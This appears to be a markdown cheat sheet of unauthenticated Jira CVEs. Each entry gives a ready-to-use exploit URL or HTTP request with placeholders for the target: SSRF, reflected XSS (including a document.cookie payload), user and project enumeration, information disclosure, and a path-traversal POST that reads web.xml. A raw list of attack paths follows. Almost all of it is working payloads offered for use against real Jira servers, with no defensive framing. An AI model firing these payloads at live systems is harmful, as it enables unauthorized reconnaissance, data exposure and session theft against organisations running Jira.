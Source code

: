 # Unauthenticated Jira CVEs
1. CVE-2017-9506 (SSRF)
```
https://<JIRA_URL>/plugins/servlet/oauth/users/icon-uri?consumerUri=<SSRF_PAYLOAD>
```
2. CVE-2018-20824 (XSS)
```
https://<JIRA_URL>/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
```
3. CVE-2019-8451 (SSRF)
```
https://<JIRA_URL>/plugins/servlet/gadgets/makeRequest?url=https://<HOST_NAME>:1337@example.com
```
4. CVE-2019-8449 (User Information Disclosure)
```
https://<JIRA_URL>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
```
5. CVE-2019-8442 (Sensitive Information Disclosure)
```
https://<JIRA_URL>/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
```
6. CVE-2019-3403 (User Enumeration)
```
https://<JIRA_URL>/rest/api/2/user/picker?query=<USERNAME_HERE>
```
7. CVE-2020-14181 (User Enumeration)
```
https://<JIRA_URL>/secure/ViewUserHover.jspa?username=<USERNAME>
```
8. CVE-2020-14178 (Project Key Enumeration)
```
https://<JIRA_URL>/browse.<PROJECT_KEY>
```
9. CVE-2020-14179 (Information Disclosure)
```
https://<JIRA_URL>/secure/QueryComponent!Default.jspa
```
10. CVE-2019-11581 (Template Injection)
```
<JIRA_URL>/secure/ContactAdministrators!default.jspa

* Try the SSTI Payloads
```

11.   CVE-2019-3396 (Path Traversal)
```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: {{Hostname}}
Accept: */*
Accept-Language: en-US,en;q=0.5 User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Referer: {{Hostname}}
Content-Length: 168
Connection: close

{"contentId":"786457","macro":{"name":"widget","body":"","params":{"url":"https://www.viddler.com/v/23464dc5","width":"1000","height":"1000","_template":"../web.xml"}}}

*Try above request with the Jira target
```
12.   CVE-2019-3402 (XSS)
```
https://<JIRA_URL>/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=%3Cscript%3Ealert(1)%3C/script%3E&Search=Search
```

/secure/ConfigurePortalPages!default.jspa?view=popular
/secure/ManageFilters.jspa?filterView=search&Search=Search&filterView=search&sortColumn=favcount&sortAscending=false
/secure/ContactAdministrators!default.jspa
/servicedesk/customer/user/login
/issues/?jql=
/plugins/servlet/oauth/users/icon-uri?consumerUri=http://google.com
/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true
/plugins/servlet/gadgets/makeRequest?url=https://victomhost:1337@example.com
/plugins/servlet/Wallboard/?dashboardId=10000&dashboardId=10000&cyclePeriod=alert(document.domain)
/secure/QueryComponent!Default.jspa
/secure/ViewUserHover.jspa
/ViewUserHover.jspa?username=Admin
/rest/api/2/dashboard?maxResults=100
/pages/%3CIFRAME%20SRC%3D%22javascript%3Aalert(‘XSS’)%22%3E.vm
/rest/api/2/user/picker?query=admin
/s/thiscanbeanythingyouwant/_/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
/rest/api/2/user/picker?query=admin
/s/
/plugins/servlet/oauth/users/icon-uri?consumerUri=https://www.google.nl
/secure/ConfigurePortalPages!default.jspa?view=search&searchOwnerUserName=x2rnu%3Cscript%3Ealert(1)%3C%2fscript%3Et1nmk&Search=Search
ConfigurePortalPages.jspa
/plugins/servlet/Wallboard/?dashboardId=10100&dashboardId=10101&cyclePeriod=(function(){alert(document.cookie);return%2030000;})()&transitionFx=none&random=true

https://resisted-soapwort-474.notion.site/jira-b7d61936d6bd4bb7a56c1ab8dd022962

Reference:
- https://twitter.com/harshbothra